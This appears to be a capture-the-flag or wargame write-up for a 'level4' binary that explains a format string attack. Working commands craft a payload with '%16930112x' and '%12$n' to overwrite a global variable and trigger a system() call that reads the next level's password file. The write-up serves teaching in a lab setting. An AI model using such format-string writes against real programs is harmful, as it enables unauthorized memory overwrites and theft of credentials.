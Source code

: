 # LEVEL 4

## 💡 Explanation

In this level we have to:
1. As always, have a look at the disas main, and the function `n` which is called on it. This fucntion looks pretty similar to what we had in the last exersise: it calls to `fget` and to `printf` passing the buffer (it does this inside of the function `p` this time), then there's a compare of the variable `m` to "0x1025544" and if true it calls to `system("/bin/cat /home/user/level5/.pass")`; there is where we want to get!
2. The idea now is that we have to use the call to `printf` to set the value of the variable `m` to "0x1025544" (16930116 in dec) which is too long to use the same exploit as before... What we are going to take profil of is the printf padding formatting. Having a number in the middle of a format specifier determines how much padding should be printed with the variable.
3. Now we are going to build our exploit. It should look like: [ADDRESS M][PADDING][%N FORMATTER]. /!\ The padding will be the lenght we are expecting - the 4 byted used to write the address of `m`!

## 👾 Commands

To find the solution:
```
[GDB] b *0x0804848d => set a breakpoint right after the printf
[GDB] run < <(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"')
```

To execute the solution:
- `(python -c 'print "\x10\x98\x04\x08" + "%16930112x" + "%12$n"' ; cat - ) | /home/user/level4/level4`

## 🔍 Resources

- [How to Write Specific Values to Memory with Format String Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/)
